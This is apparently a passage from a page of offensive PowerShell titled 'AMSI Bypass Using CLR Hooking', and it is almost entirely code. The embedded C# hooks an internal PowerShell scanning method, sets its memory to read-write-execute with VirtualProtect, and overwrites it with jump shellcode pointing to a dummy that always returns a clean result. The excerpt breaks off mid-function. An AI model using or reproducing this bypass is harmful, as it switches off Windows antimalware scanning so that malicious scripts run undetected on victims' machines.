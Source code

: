 ### AMSI Bypass Using CLR Hooking

```PowerShell

$code = @"
using System;
using System.ComponentModel;
using System.Management.Automation;
using System.Reflection;
using System.Runtime.CompilerServices;
using System.Runtime.InteropServices;
using System.Text;
namespace Editor {
    public static class Methods {
        public static void Patch() {
            MethodInfo original = typeof(PSObject).Assembly.GetType(Methods.CLASS).GetMethod(Methods.METHOD, BindingFlags.NonPublic | BindingFlags.Static);
            MethodInfo replacement = typeof(Methods).GetMethod("Dummy", BindingFlags.NonPublic | BindingFlags.Static);
            Methods.Patch(original, replacement);
        }
        [MethodImpl(MethodImplOptions.NoOptimization | MethodImplOptions.NoInlining)]
        private static int Dummy(string content, string metadata) {
            return 1;
        }
        public static void Patch(MethodInfo original, MethodInfo replacement) {
            //JIT compile methods
            RuntimeHelpers.PrepareMethod(original.MethodHandle);
            RuntimeHelpers.PrepareMethod(replacement.MethodHandle);
            //Get pointers to the functions
            IntPtr originalSite = original.MethodHandle.GetFunctionPointer();
            IntPtr replacementSite = replacement.MethodHandle.GetFunctionPointer();
            //Generate architecture specific shellcode
            byte[] patch = null;
            if (IntPtr.Size == 8) {
                patch = new byte[] { 0x49, 0xbb, 0x0, 0x0, 0x0, 0x0, 0x0, 0x0, 0x0, 0x0, 0x41, 0xff, 0xe3 };
                byte[] address = BitConverter.GetBytes(replacementSite.ToInt64());
                for (int i = 0; i < address.Length; i++) {
                    patch[i + 2] = address[i];
                }
            } else {
                patch = new byte[] { 0x68, 0x0, 0x0, 0x0, 0x0, 0xc3 };
                byte[] address = BitConverter.GetBytes(replacementSite.ToInt32());
                for (int i = 0; i < address.Length; i++) {
                    patch[i + 1] = address[i];
                }
            }
            //Temporarily change permissions to RWE
            uint oldprotect;
            if (!VirtualProtect(originalSite, (UIntPtr)patch.Length, 0x40, out oldprotect)) {
                throw new Win32Exception();
            }
            //Apply the patch
            IntPtr written = IntPtr.Zero;
            if (!Methods.WriteProcessMemory(GetCurrentProcess(), originalSite, patch, (uint)patch.Length, out written)) {
                throw new Win32Exception();
            }
            //Flush insutruction cache to make sure our new code executes
            if (!FlushInstructionCache(GetCurrentProcess(), originalSite, (UIntPtr)patch.Length)) {
                throw new Win32Exception();
            }
```